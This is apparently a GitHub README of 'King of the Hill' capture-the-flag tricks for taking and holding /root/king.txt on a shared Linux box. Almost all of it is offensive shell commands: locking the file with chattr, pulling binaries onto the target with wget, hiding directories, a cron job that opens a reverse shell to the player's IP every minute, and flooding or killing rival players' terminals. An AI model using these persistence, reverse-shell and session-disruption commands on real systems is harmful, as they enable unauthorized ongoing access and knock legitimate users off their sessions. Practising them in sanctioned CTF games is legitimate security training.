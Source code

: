 # KOTH-Tricks
## Make king.txt unwritable
### Using noclobber
```
set -o noclobber /root/king.txt
```
### Using chattr
```
 chattr +ai /root/king.txt
```
If chattr binary is not present on the machine you can download it into your machine and after compiling you can upload into KOTH_machine and use it

Downloading into Local Machine
 ```
wget https://github.com/posborne/linux-programming-interface-exercises/blob/master/15-file-attributes/chattr.c
gcc chattr.c -o chattr
```
Uploading to KOTH_machine
```
python3 -m http.server 8080       //on your local machine start a python server
wget http://yourip:port/chattr   //on the KOTH_machine for download the binary
chmod +x chattr
./chattr +ai /root/king.txt
```
-----------------------------------------------------------------------------
-----------------------------------------------------------------------------
## Use . for creating hidden directory where you can store your binaries
```
mkdir .hidden_folder
```
-----------------------------------------------------------------------------
-----------------------------------------------------------------------------
## Use Cronjobs for automation
> Run 'crontab -e' and paste these line
### Reverse shell
```
* * * * * /bin/sh -i >& /dev/tcp/YOUR_IP/LISTENING_PORT 0>&1
```
### Write to king.txt
```
* * * * * echo "USERNAME" > /root/king.txt >/dev/null 2>&1
```
-----------------------------------------------------------------------------
-----------------------------------------------------------------------------
## Breaking opponent shell
### find opponent pts using these commands
```
ps aux | grep pts
who
w
```
### Spam urandom to opponent shell
```
cat /dev/urandom >/dev/pts/#
```
>  NOTE: place opponent pts in place of '#' 
### Using script
```
script -f /dev/pts/#
```
### Spam your username to opponent shell
```
while true; do echo 'YOUR_USERNAME' >/dev/pts/#; done 
```
### Kill opponent shell
```
pkill -9 -t pts/#
```
### Using nyancat
Downloading nyancat to local Machine
```
git clone https://github.com/klange/nyancat
cd nyancat/src
make
```
Sending nyancat to KOTH_machine
```
python3 -m http.server 8080        //on your local machine start a python server into 'nyancat/src' folder
wget http://yourip:port/nyancat   //on the KOTH_machine
chmod +x nyancat
./nyancat > /dev/pts/#
```
-----------------------------------------------------------------------------
-----------------------------------------------------------------------------
## while loop Tricks
```
while [[ $(cat /root/king.txt) != "YOUR_USERNAME" ]]; do echo "YOUR_USERNAME" > /root/king.txt; done
while true; do chattr -ia /root/king.txt 2>/dev/null; echo "YOUR_USERNAME" >/root/king.txt 2>/dev/null; chattr +ia /root/king.txt 2>/dev/null; done
```
# Keep connected more coming in future......
